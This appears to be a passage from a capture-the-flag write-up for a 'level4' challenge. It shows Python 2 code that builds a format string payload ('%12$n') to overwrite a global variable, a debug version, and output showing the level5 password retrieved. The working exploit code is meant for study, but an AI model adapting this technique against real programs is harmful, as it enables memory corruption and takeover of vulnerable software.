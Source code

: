 ```python

# Method: Use width specifier to print exact number of characters
# Format: %[width]c prints a character padded to [width] characters

payload = struct.pack("<L", target_addr)  # 4 bytes: target address (0x8049810)

# We need to print exactly target_value characters total
# We already have 4 characters from the address
remaining = target_value - 4  # 16930112 characters needed

payload += "%" + str(remaining) + "c"  # Print 16930112 characters (padded)
payload += "%12$n"                     # Write the count to address at stack position 12

print payload
```

### debug_exploit.py (Development/Testing Version)
```python
#!/usr/bin/env python2

import struct

target_addr = 0x8049810
target_value = 16930116

print "Target address: 0x%x" % target_addr
print "Target value: %d (0x%x)" % (target_value, target_value)

payload = struct.pack("<L", target_addr)
remaining = target_value - 4
payload += "%" + str(remaining) + "c%12$n"

print "Payload length: %d bytes" % len(payload)
print "Characters to print: %d" % target_value
print "Payload preview: %s" % repr(payload[:50])
```

## Execution Results

### Successful Exploitation
```bash
$ python exploit.py | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

$ python exploit.py | ./level4 | wc -c
65
```

### Verification Process
1. **Payload Generation**: Successfully created format string payload
2. **Memory Write**: Confirmed value 16930116 written to 0x8049810
3. **Condition Check**: Global variable comparison passed (m == 16930116)
4. **Flag Retrieval**: system() call executed, level5 password obtained
